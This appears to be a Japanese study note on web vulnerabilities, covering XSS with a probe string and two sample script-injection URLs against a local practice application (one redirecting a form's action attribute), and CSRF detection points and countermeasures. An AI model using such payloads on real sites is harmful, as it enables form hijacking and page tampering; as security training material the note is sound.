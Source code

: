# web脆弱性

## おすすめのサイトなど
-(OWASP JAPAN代表的な脆弱性のサイト)[https://owasp.org/www-chapter-japan/]

## コンテンツ

* 脆弱性/脅威/対策で整理していく

## XSS

* 現在も脆弱性の届け出が一番多い
* JavaScriptを使って攻撃する

### 流れ
①フォーム入力などから脆弱性を確認する。以下コマンドを入れる
```
'>"><hr>
```
②脆弱性からどのようなスクリプトが実行できるかを検討する。
HTMLやBURPを利用して攻撃コードを作成する。

name項目に脆弱性あった場合のサンプル

- titleのidを書き換える。
```
http://localhost/Users/_personal/Web/Scenario1121/VulSoft/enquete.php?page=2&sex=0&old=1&company=&xss=1&trouble=1&content=&name=<script>document.getElementById("title").innerHTML='書き換えた値'</script>
```

- action属性を書き換える
```
http://localhost/Users/_personal/Web/Scenario1122/VulSoft/enquete.php?page=2&name=&old=&company=&content=&name=<script>document.getElementById("enquete_form").action='http://google.com'</script>
```

### 対策


## CSRF

### 脆弱性判断ポイント
1. hidden属性にトークンを持っていないまたは推測可能である場合
2. 購入、更新が行われる画面からパスワードの入力を求められない場合
3. refererを確認していない場合

### 対策

1. トークン
→リクエストのトークンで判断する

2. リファラー
→どのページから遷移してきたかを確認する

3. サーバ側で処理前にパスワード要求
→画面の設計変更が必要

